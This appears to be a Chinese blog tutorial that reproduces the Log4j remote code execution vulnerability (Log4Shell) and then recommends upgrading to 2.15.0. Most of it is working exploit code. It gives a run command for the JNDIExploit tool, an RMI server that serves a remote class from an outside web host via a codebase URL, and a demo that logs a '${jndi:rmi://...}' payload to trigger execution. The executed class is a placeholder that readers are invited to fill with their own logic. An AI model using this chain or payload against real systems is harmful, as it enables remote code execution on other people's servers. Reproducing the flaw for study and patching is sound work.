




@[TOC](文章目录)

### 一、问题

在`Log4j2.x<=2.14.1`版本，攻击者可通过构造恶意请求，触发远程代码执行漏洞



### 二、Log4j远程代码执行漏洞复现

#### 1、下载JNDIExploit

> 一款用于 JNDI注入 利用的工具

[https://github.com/feihong-cs/JNDIExploit](https://github.com/feihong-cs/JNDIExploit)

运行

```shell
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i ip
```



#### 2、远程执行程序 -- AppRun

> tips: 自行编写相应逻辑 `^_^`

```java
public class AppRun {

    static {
        System.out.println("hello world...");
    }

}
```

#### 3、编译AppRun放入nginx服务器根目录下

```shell
javac AppRun.java
```

将编译好的`AppRun.class`放入nginx服务器根目录下


#### 4、编写一个RMI服务端

```java
public class RmiServer {

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        try {
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();
            // 本地执行方式
//            Reference reference = new Reference("AppRun", "AppRun", null);
            // tips:如果是远程执行，需要将`AppRun`编译后的字节码文件放到nginx html访问目录下，再通过如下方式执行程序
            Reference reference = new Reference("AppRun", "AppRun", "http://www.zhengqingya.com:80/");
            registry.bind("app", new ReferenceWrapper(reference));
            System.out.println("Create app registry on port 1099...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

运行`RmiServer`

#### 5、模拟一个用log4j运行的程序

模拟输出特定值，实际上可在前端页面上的输入框中输入这些值，只要程序后台通过log4j打印这些值即会触发远程代码`AppRun`执行相应逻辑

```java
public class Log4j {
    
    private static final Logger log = LogManager.getLogger(Log4j.class);

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        log.error("test1: ${java:os}");
        log.error("test2: ${jndi:rmi://192.168.101.88:1099/app}");
    }

}
```

运行`Log4j`，即可查看效果


### 三、解决

升级log4j版本至`2.15.0`

```xml
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.15.0</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.15.0</version>
</dependency>
```


### 四、本文案例demo源码

[https://gitee.com/zhengqingya/java-workspace](https://gitee.com/zhengqingya/java-workspace)


---

> 今日分享语句：
> 就算学习和生活再艰难，也要一边痛着，一边笑着，给生活一张漂亮的脸。
